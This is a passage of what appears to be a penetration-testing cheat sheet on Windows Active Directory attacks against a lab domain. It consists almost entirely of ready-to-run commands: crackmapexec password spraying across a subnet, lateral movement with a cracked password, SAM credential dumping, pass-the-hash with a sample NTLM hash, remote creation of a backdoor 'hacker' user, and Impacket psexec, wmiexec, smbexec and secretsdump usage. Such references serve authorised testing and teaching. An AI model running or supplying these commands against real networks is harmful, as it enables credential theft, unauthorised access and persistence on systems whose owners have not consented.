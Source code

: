 ### Practical Attack Scenarios

#### Scenario 1: Password Spraying
```bash
# Create user list
echo -e "administrator\nadmin\nuser\nservice" > users.txt

# Password spray common passwords
crackmapexec smb 192.168.1.0/24 -u users.txt -p Password123 --continue-on-success

# Try multiple common passwords
crackmapexec smb 192.168.1.0/24 -u users.txt -p passwords.txt --continue-on-success
```

#### Scenario 2: Lateral Movement with Cracked Password
```bash
# Found password: fcastle:Password1
# Test across network
crackmapexec smb 192.168.1.0/24 -u fcastle -d MARVEL.local -p Password1

# Execute commands on accessible systems
crackmapexec smb 192.168.1.0/24 -u fcastle -d MARVEL.local -p Password1 -x "whoami"

# Dump credentials from accessible systems
crackmapexec smb 192.168.1.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
```

#### Scenario 3: Pass the Hash Attack
```bash
# Dumped hash: administrator:aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76
# Use hash for authentication
crackmapexec smb 192.168.1.0/24 -u administrator -H 5fbc3d5fec8206a30f4b6c473d68ae76

# Execute commands with hash
crackmapexec smb 192.168.1.0/24 -u administrator -H 5fbc3d5fec8206a30f4b6c473d68ae76 -x "net user hacker Password123 /add"
```

### Other Tools for Pass Attacks

#### Impacket Suite
```bash
# psexec.py - Execute commands
psexec.py DOMAIN/username:password@target_ip

# psexec with hash
psexec.py -hashes :ntlm_hash DOMAIN/username@target_ip

# wmiexec.py - WMI execution
wmiexec.py DOMAIN/username:password@target_ip

# smbexec.py - SMB execution
smbexec.py DOMAIN/username:password@target_ip

# secretsdump.py - Dump credentials
secretsdump.py DOMAIN/username:password@target_ip
```
